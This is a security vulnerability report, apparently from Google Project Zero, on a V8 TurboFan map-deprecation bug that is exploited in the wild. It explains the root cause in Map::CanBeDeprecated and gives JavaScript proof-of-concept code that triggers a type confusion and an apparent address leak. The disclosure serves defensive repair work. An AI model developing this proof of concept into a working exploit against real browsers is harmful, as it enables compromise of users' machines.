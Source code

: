 NOTE: We have evidence that the following bug is being used in the wild. Therefore, this bug is subject to a 7 day disclosure deadline.

<b>VULNERABILITY DETAILS</b>

When turbofan compiles code that performs a Map transition, it usually installs a CodeDependency so that the resulting code is deoptimized should the target Map ever be deprecated (meaning that the code should now transition to a different Map). This is done through the TransitionDependencyOffTheRecord function [1]. This function will only install the dependency if the target Map can be deprecated, which is determined by Map::CanBeDeprecated [2], shown next

    bool Map::CanBeDeprecated() const {
      for (InternalIndex i : IterateOwnDescriptors()) {
        PropertyDetails details = instance_descriptors(kRelaxedLoad).GetDetails(i);
        if (details.representation().IsNone()) return true;
        if (details.representation().IsSmi()) return true;
        if (details.representation().IsDouble() && FLAG_unbox_double_fields)        <---
          return true;
        if (details.representation().IsHeapObject()) return true;
        if (details.kind() == kData && details.location() == kDescriptor) {
          return true;
        }
      }
      return false;
    }

As can be seen, this function assumes that a Map storing only fields of type Double or Tagged can not be deprecated if FLAG_unbox_double_fields is false, which is the case if pointer compression is enabled (the default on x64). This appears to be incorrect, as the following code demonstrated:

    // Requires --nomodify-field-representation-inplace

    function poc() {
        function hax(o) {
            o.a = 13.37;
        }

        let o1 = {};
        for (let i = 0; i < 100000; i++) {
            let o = i == 1000 ? {} : o1;
            hax(o);
        }

        let o2 = {};
        o2.a = {};
        // Map1 is now deprecated
        // %HaveSameMap(o2, o1) === false

        let o3 = {};
        hax(o3);
        // o3 was now transitioned to a deprecated map
        %DebugPrint(o3);
        // ...
        //  - deprecated_map
    }
    %NeverOptimizeFunction(poc);
    poc();

This code ends up performing a new transition to a deprecated map.

This bug can be exploited when combined with the in-place field generalization mechanism. In short, the idea is to

1. JIT compile a function that performs a transition from map1{a:double} to map2{a:double,b:whatever}
2. Deprecate map2. This does not deoptimize the JIT code since map2 was thought to not be deprecatable
3. In-place generalize map1.a to type tagged. This will not also generalize map2 since it is deprecated.
4. Execute the JIT code. This will effectively transition from map1{a:tagged} to map2{a:double,b:whatever}, which is incorrect and results in a type confusion.

The following code achieves that and causes a check failure in debug builds: "Debug check failed: value.IsHeapNumber()." while printing (presumably) an address in release builds.

<b>REPRODUCTION CASE</b>

// Tested on v8 built from current HEAD (dd84c3937058b086b6b7a412ac352179e20bd9c7)
// Requires --allow-natives-syntax

function assert(c) {
    if (!c) { throw "Assertion failed"; }
}

function assertFalse(c) {
    assert(!c);
}

function poc() {
    function hax(o) {
        o.c = 13.37;
    }

    function makeObjWithMap5() {
        let o = {};
        o.a = 13.37;
        o.b = {};
        return o
    }

    // Create a bunch of Maps. See the assertions for their relationships

    let m1 = {};

    let m2 = {};
    assert(%HaveSameMap(m2, m1));
    m2.a = 13.37;

    let m3 = {};
    m3.a = 13.37;
    assert(%HaveSameMap(m3, m2));
    m3.b = 1;

    let m4 = {};
    m4.a = 13.37;
    m4.b = 1;
    assert(%HaveSameMap(m4, m3));
    m4.c = {};

    let m4_2 = {};
    m4_2.a = 13.37;
    m4_2.b = 1;
    m4_2.c = {};
    assert(%HaveSameMap(m4_2, m4));

    let m5 = {};
    m5.a = 13.37;
    assert(%HaveSameMap(m5, m2));
    m5.b = 13.37;
    assertFalse(%HaveSameMap(m5, m3));

    // At this point, Map3 and Map4 are both deprecated. Map2 transitions to Map5.
    // Map5 is the migration target for Map3. The Migration target for Map4 is a new Map
    assertFalse(%HaveSameMap(m5, m3));

    let m6 = makeObjWithMap5();
    assert(%HaveSameMap(m6, m5));
    hax(m6);

    let kaputt = makeObjWithMap5();
    assert(%HaveSameMap(kaputt, m5));

    for (let i = 0; i < 100000; i++) {
        let o = i == 1337 ? makeObjWithMap5() : m6;
        hax(o);
    }

    // Map4 is deprecated, so this property access triggers a Map migration.
    // This will end up creating a new Map, Map7, to which both Map4 and Map6
    // migrate. Map5's transition entry afterwards points to Map7 and no
    // longer to Map6. Map6 is deprecated.
    let m7 = m4_2;
    assert(%HaveSameMap(m7, m4));
    m7.c;
    assertFalse(%HaveSameMap(m7, m4));

    // However, hax was not deoptimized and still transitions to Map6 because
    // Map::CanBeDeprecated returns false for it.

    // This does a in-place map generalization of Map5 and Map7, but not Map6.
    // Map6 still indicates that .a should be a double field.
    kaputt.a = "asdf";
    assert(%HaveSameMap(kaputt, m5));

    // This now migrates to the wrong map (Map6) because hax was not deoptimized.
    // This is incorrect because .a now stores a HeapObject and not a double.
    hax(kaputt);

    // This now fails in debug builds
    %HeapObjectVerify(kaputt);

    // This prints (presumably) an address in release builds
    console.log(kaputt.a);
}
%NeverOptimizeFunction(poc);

poc();


<b>CREDIT INFORMATION</b>
Clement Lecigne of Google's Threat Analysis Group and Samuel Groß of Google Project Zero

NOTE: We have evidence that the following bug is being used in the wild. Therefore, this bug is subject to a 7 day disclosure deadline.

[1] https://source.chromium.org/chromium/chromium/src/+/master:v8/src/compiler/compilation-dependencies.cc;l=641;drc=b4ed955a8e69c4f5fad8fc5ead483571298f1a81;bpv=1;bpt=1
[2] https://source.chromium.org/chromium/chromium/src/+/master:v8/src/objects/map-inl.h;l=563;drc=b4ed955a8e69c4f5fad8fc5ead483571298f1a81;bpv=1;bpt=1